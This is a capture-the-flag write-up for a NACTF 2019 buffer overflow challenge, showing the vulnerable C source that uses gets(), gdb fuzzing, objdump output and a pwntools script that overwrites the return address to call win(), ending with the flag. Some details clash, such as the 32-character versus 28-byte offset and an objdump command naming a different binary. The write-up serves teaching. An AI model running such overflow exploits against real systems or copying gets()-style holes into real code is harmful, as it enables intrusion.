


# BufferOverflow #1

## Challenge

"The close cousin of a website for 'Question marked as duplicate' - part 2!

Can you redirect code execution and get the flag?

Connect at shell.2019.nactf.com:31462"

You can download the problem files here [bufover-1.c](bufover-1.c) [bufover-1](bufover-1)

## Process

From the title I knew this would be a buffer overflow challenge. I opened up the .c file and looked for anything interesting.

```
#include <stdio.h>

void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();
	return 0;
}
```

I noticed the line

```
	gets(buf);
```

which is vulnerable to a buffer overflow attack. I also noticed

```
void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}
```

This tells us that we want to jump into the function win(). I locally ran the file in gdb and supplied more than enough characters to cause errors. I alphabetically inputted letters in groups of four to make it easier to determine how large of an offset I'll need in my payload. 



0x48484848 overflowed into the stack pointer. 0x48 in hexadecimal is the letter "H" in ascii. Therefore 32 total characters are needed to cause a buffer overflow, and the last four of those 32 characters will overwrite the stack pointer. We want to overwrite the stack pointer such that the program jumps to the function win() and prints the flag.

To find the address of the function win(), I ran an object dump on the given elf file. You can look at the entire dump here [objectdump-d.txt](objectdump-d.txt).

```
$ objdump -d return-to-sender > objectdump-d.txt
```

Through the dump I found the address of the function win(), which is 0x080491b2

```
080491b2 <win>:
 80491b2:	55                   	push   %ebp
 80491b3:	89 e5                	mov    %esp,%ebp
 80491b5:	81 ec 18 01 00 00    	sub    $0x118,%esp
 80491bb:	83 ec 0c             	sub    $0xc,%esp
 80491be:	68 08 a0 04 08       	push   $0x804a008
```

I then wrote and ran [this](payloader.py) python script to perform the bufferoverflow attack.

```
from pwn import * 
connection = remote('shell.2019.nactf.com', 31462)
#through fuzzing we found buffer
offset = 28
#through objdump -d we found the address of win as 0x080491b2
address = p32(0x080491b2)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
connection.interactive()

#The flag is nactf{pwn_31p_0n_r3t_iNylg281}
```



The flag is nactf{pwn_31p_0n_r3t_iNylg281}